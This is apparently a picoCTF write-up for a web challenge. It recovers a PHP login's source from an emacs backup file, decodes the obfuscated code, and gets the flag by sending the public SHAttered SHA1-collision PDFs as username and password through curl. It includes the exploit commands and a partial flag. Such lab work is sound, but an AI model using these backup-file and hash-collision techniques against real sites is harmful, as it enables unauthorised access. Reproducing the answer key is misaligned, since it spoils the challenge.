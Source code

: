 # Description

I found a web app that claims to be impossible to hack!
Try it here!

# Solution

First when going to the website no matter what input you put it, it will return `Failed! No flag for you` with no source code showed how the impossibleLogin.php functions beyond the basic structure of the web page.

By looking at the hints it mentions Backup files and that the the lead developer is a militant emacs user. So if you such backup files emacs you can easily come across in the first result the naming scheme which has a tilda "~" appended to the end of the filename. So by going to this modified webpage link: `http://verbal-sleep.picoctf.net:50313/impossibleLogin.php~`

And looking in the source code again in the web dev tools you can now see php code listed near the bottom:

```
<?php
 if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");}else{if(sha1($yuf85e0677)===sha1($rs35c246d5)){echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));}else{echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");}}}?>
```

Here is the same code just formatted better with spacing:

```
<?php
if (
    isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")]) &&
    isset($_POST[base64_decode("\143\x48\x64\x6b")])
) {
    $yuf85e0677 = $_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];
    $rs35c246d5 = $_POST[base64_decode("\143\x48\144\153")];

    if ($yuf85e0677 == $rs35c246d5) {
        echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");
    } else {
        if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
            echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));
        } else {
            echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");
        }
    }
}
?>
```

From here you can use php to get the base64 decoded version of the text. Here is a php script that only gets prints out all of the base64 strings with no repititions:

```
<?php
echo base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d");
echo "\n";
echo base64_decode("\143\x48\x64\x6b");
echo "\n";
echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");
echo "\n";
echo base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75");
?>
```

Output:
```
username
pwd
<br/>Failed! No flag for you
../flag.txt
```

PHP Script with the base64 decoded:

```
<?php
if (
    isset($_POST["username"]) &&
    isset($_POST["pwd"])
) {
    $yuf85e0677 = $_POST["username"];
    $rs35c246d5 = $_POST["pwd"];

    if ($yuf85e0677 == $rs35c246d5) {
        echo "<br/>Failed! No flag for you";
    } else {
        if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
            echo file_get_contents("../flag.txt");
        } else {
            echo "<br/>Failed! No flag for you";
        }
    }
}
?>
```

From this script it can now be more clearly seen that yuf85e0677 is set to username and rs35c246d5 is set to password. If they equal each other than the script fails, however if the sha1 hashes match then it will give the flag otherwise it will also fail. Meaning that there needs to be an input of a username and password that have different values but the same hash. Basically a SHA1 hash collision. When looking that up you can find the first SHA1 hash collision found in a google security blog:

https://security.googleblog.com/2017/02/announcing-first-sha1-collision.html

You can find the referenced pdfs that have the hash collision on:

https://shattered.io/

You can use this command to get the pdfs in your current directory:

`wget https://shattered.io/static/shattered-1.pdf https://shattered.io/static/shattered-2.pdf`

Lastly, you can use curl to input the files in the respective username and password (pwd) fields onto the impossibleLogin.php page.

`curl -X POST -F "username=<shattered-1.pdf" -F "pwd=<shattered-2.pdf" http://verbal-sleep.picoctf.net:50313/impossibleLogin.php`

After that near the end of the page the flag will be displayed.

Flag: `picoCTF{w3Ll_d3sErV3d_Ch4mp_5b26...}`